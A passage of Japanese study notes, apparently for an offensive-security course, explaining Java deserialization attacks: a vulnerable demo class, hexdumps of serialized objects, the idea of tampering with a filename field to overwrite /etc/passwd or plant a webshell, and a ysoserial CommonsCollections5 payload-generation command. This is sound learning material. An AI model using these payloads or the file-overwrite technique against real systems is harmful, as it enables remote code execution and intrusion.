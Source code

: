 ```java
		Utils.SerializeToFile(name,filename);  // Stringクラスをシリアライズ
		
		Utils.DeserializeFromFile(file);  // Logfileクラスのデータをデシリアライズ
		Utils.DeserializeFromFile(filename);  // Stringクラスのデータをデシリアライズ
	}
}
```
LogFileクラスのデシリアライズではLogFileクラスで実装したreadObjectメソッドが使用されているが、String型のデシリアライズでは標準のreadObjectが使われている。   
```txt
root@kali:~/Documents/AWAE/javaDeserialization/ex1# javac Vuln.java 
root@kali:~/Documents/AWAE/javaDeserialization/ex1# java Vuln 
Serializing LogFile@d46ca6 to Log.ser
Serializing admin to admin.ser
Deserializing from Log.ser
readObject from LogFile
File name: User_Nytro.log, file content: 
No actions logged
Restoring log data to file...
Deserializing from admin.ser
root@kali:~/Documents/AWAE/javaDeserialization/ex1#
root@kali:~/Documents/AWAE/javaDeserialization/ex1# cat Log.ser | hexdump -C
00000000  ac ed 00 05 73 72 00 07  4c 6f 67 46 69 6c 65 d7  |....sr..LogFile.|
00000010  60 3d d7 33 3e bc d1 02  00 02 4c 00 0b 66 69 6c  |`=.3>.....L..fil|
00000020  65 63 6f 6e 74 65 6e 74  74 00 12 4c 6a 61 76 61  |econtentt..Ljava|
00000030  2f 6c 61 6e 67 2f 53 74  72 69 6e 67 3b 4c 00 08  |/lang/String;L..|
00000040  66 69 6c 65 6e 61 6d 65  71 00 7e 00 01 78 70 74  |filenameq.~..xpt|
00000050  00 11 4e 6f 20 61 63 74  69 6f 6e 73 20 6c 6f 67  |..No actions log|
00000060  67 65 64 74 00 0e 55 73  65 72 5f 4e 79 74 72 6f  |gedt..User_Nytro|
00000070  2e 6c 6f 67                                       |.log|
00000074
root@kali:~/Documents/AWAE/javaDeserialization/ex1# 
```
ここから、シリアライズされたデータは`LogFileクラス`、`データ`を持ち、Javaのコードは含まないことがわかる。   
ここで攻撃者はデータを改竄することでRCEできるかも。この例だと、`obj.filename`の`User_Nytro.log`を`/etc/passwd`にして別のデータを書き込んだりWebshellを設置したりすればよい。   

## gadget
https://github.com/frohoff/ysoserial   
などにあるGadgetを使用して、シリアライズされたデータを作成すれば、ガジェットが動く環境にあれば、そのデータをデシリアライズさせることでRCEできる！   
どのガジェットが動くかわからないときは全部順に試していく必要があるらしい。   
   
例えば、以下のCommonsCollections5で動作するガジェットでシリアライズしたデータを逆シリアライズさえできればRCEできるということ！   
```txt
root@kali:~/Documents/AWAE/javaDeserialization/ex1# java -jar /opt/ysoserial-master-SNAPSHOT.jar CommonsCollections5 calc.exe > Exp.ser
root@kali:~/Documents/AWAE/javaDeserialization/ex1# cat Exp.ser | hexdump -C
00000000  ac ed 00 05 73 72 00 2e  6a 61 76 61 78 2e 6d 61  |....sr..javax.ma|
00000010  6e 61 67 65 6d 65 6e 74  2e 42 61 64 41 74 74 72  |nagement.BadAttr|
00000020  69 62 75 74 65 56 61 6c  75 65 45 78 70 45 78 63  |ibuteValueExpExc|
00000030  65 70 74 69 6f 6e d4 e7  da ab 63 2d 46 40 02 00  |eption....c-F@..|
00000040  01 4c 00 03 76 61 6c 74  00 12 4c 6a 61 76 61 2f  |.L..valt..Ljava/|
00000050  6c 61 6e 67 2f 4f 62 6a  65 63 74 3b 78 72 00 13  |lang/Object;xr..|
00000060  6a 61 76 61 2e 6c 61 6e  67 2e 45 78 63 65 70 74  |java.lang.Except|
00000070  69 6f 6e d0 fd 1f 3e 1a  3b 1c c4 02 00 00 78 72  |ion...>.;.....xr|
00000080  00 13 6a 61 76 61 2e 6c  61 6e 67 2e 54 68 72 6f  |..java.lang.Thro|
00000090  77 61 62 6c 65 d5 c6 35  27 39 77 b8 cb 03 00 04  |wable..5'9w.....|
000000a0  4c 00 05 63 61 75 73 65  74 00 15 4c 6a 61 76 61  |L..causet..Ljava|
000000b0  2f 6c 61 6e 67 2f 54 68  72 6f 77 61 62 6c 65 3b  |/lang/Throwable;|
000000c0  4c 00 0d 64 65 74 61 69  6c 4d 65 73 73 61 67 65  |L..detailMessage|
000000d0  74 00 12 4c 6a 61 76 61  2f 6c 61 6e 67 2f 53 74  |t..Ljava/lang/St|
000000e0  72 69 6e 67 3b 5b 00 0a  73 74 61 63 6b 54 72 61  |ring;[..stackTra|
000000f0  63 65 74 00 1e 5b 4c 6a  61 76 61 2f 6c 61 6e 67  |cet..[Ljava/lang|
00000100  2f 53 74 61 63 6b 54 72  61 63 65 45 6c 65 6d 65  |/StackTraceEleme|
```